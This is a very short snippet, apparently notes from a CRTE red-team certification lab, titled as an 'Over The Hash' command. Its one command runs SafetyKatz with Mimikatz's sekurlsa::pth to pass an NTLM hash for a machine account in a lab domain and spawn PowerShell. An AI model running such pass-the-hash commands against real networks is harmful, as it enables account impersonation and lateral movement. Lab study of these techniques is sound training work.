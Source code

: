 # CRTE Over The Hash command 
.\SafetyKatz.exe "sekurlsa::pth /user:PAWSRV$ /domain:CITADEL.CORP /ntlm:e19f980f68ca43cbb88bec510aaf4b44 /run:powershell.exe" 

